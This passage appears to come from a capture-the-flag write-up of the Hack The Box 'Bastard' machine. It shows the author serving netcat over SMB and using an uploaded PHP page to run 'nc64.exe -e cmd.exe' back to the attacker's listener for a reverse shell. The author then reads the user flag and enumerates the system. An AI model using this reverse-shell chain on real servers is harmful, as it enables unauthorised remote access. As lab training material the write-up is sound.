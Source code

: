 ```text
root@kali:~/htb/bastard# wget https://github.com/phackt/pentest/raw/master/privesc/windows/nc64.exe
```

Start smbserver so I can pull file from box:

```text
root@kali:~/htb/bastard# python /opt/impacket/examples/smbserver.py share /root/htb/bastard/
```

Grab rlwarap (useful to format output of NC better) then start a NC listening:

```text
root@kali:~/htb/bastard# apt install rlwrap
root@kali:~/htb/machines/bastard# rlwrap nc -lnvp 443
listening on [any] 443 ...
```

Browse to my uploaded exploit php page here:

```text
http://10.10.10.9/test.php?cmd=\\10.10.14.34\share\nc64.exe%20-e%20cmd.exe%2010.10.14.34%20443
```

Now switch back to NC:

```text
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.9] 49264
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

## User Flag

Let's grab the user flag before we move on:

```text
C:\inetpub\drupal-7.54>type c:\users\dimitris\desktop\user.txt
type c:\users\dimitris\desktop\user.txt
<<HIDDEN>>
```

Check for service packs/patches:

```text
C:\inetpub\drupal-7.54>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46
System Boot Time:          22/10/2019, 5:48:22
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
```